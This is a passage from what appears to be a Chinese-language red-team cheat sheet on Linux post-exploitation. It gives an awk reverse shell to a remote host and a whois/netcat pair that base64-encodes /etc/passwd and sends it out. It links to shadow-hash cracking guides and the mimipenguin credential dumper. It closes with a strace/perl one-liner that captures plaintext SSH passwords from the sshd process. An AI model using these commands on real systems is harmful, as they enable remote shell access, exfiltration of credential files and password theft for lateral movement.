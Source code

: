 ```bash
awk 'BEGIN {s = "/inet/tcp/0/10.0.0.1/4242"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```

### whois

接收端
```
nc -vlnp 1337 | sed "s/ //g" | base64 -d
```

发送端
```
whois -h 127.0.0.1 -p 1337 `cat /etc/passwd | base64`
```

---

# 认证

**相关文章**
- [How to Crack Shadow Hashes After Getting Root on a Linux System](https://null-byte.wonderhowto.com/how-to/crack-shadow-hashes-after-getting-root-linux-system-0186386/)
- [Linux下的密码Hash——加密方式与破解方法的技术整理](https://3gstudent.github.io/3gstudent.github.io/Linux%E4%B8%8B%E7%9A%84%E5%AF%86%E7%A0%81Hash-%E5%8A%A0%E5%AF%86%E6%96%B9%E5%BC%8F%E4%B8%8E%E7%A0%B4%E8%A7%A3%E6%96%B9%E6%B3%95%E7%9A%84%E6%8A%80%E6%9C%AF%E6%95%B4%E7%90%86/)

**相关工具**
- [huntergregal/mimipenguin](https://github.com/huntergregal/mimipenguin) - 从当前 Linux 用户转储登录密码的工具
- [Hashcat](../../安全工具/Hashcat.md#爆破shadow文件)

## 口令抓取

当我们拿下 windows 机器时可以通过抓内存中的密码进行横向，但 linux 却不可能抓到内存中的密码，但是 Debian 系列下的 linux 系统可以通过监听 sshd 进程的数据抓取出明文密码，比如你拿下了一台管理员机器，上面由 xshell，你可以手动开一个监听，在开一个登录，监听的窗口上就抓出密码了

```bash
strace -xx -fp `cat /var/run/sshd.pid` 2>&1| grep --line-buffered -P 'write\(\d, "\\x00' | perl -lne '$|++; @F=/"\s*([^"]+)\s*"/g;for (@F){tr/\\x//d}; print for @F'|grep --line-buffered -oP '.{8}\K([2-7][0-9a-f])*$'|grep --line-buffered -v '^64$'|perl -pe 's/([0-9a-f]{2})/chr hex $1/gie'
```

实测 kali、ubuntu 都可以，centos 不行

![](../../../../assets/img/Security/RedTeam/OS安全/Linux安全/1.png)

![](../../../../assets/img/Security/RedTeam/OS安全/Linux安全/2.png)
